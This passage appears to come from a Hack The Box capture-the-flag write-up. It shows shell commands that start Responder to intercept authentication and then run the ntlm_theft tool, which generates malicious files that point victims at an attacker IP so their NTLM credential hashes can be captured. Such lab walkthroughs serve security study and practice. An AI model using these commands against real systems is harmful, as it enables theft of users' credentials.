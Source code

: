 So, first of all, we set up Responder to intercept any potential authentication requests.

```sh
# start responder
responder -I tun0 -v

# Then, we clone the ntl_theft tool and create our malicious files.
git clone https://github.com/Greenwolf/ntlm_theft
cd ./ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
```

![screenshot](/assets/images/flight16.png)
![screenshot](/assets/images/flight17.png)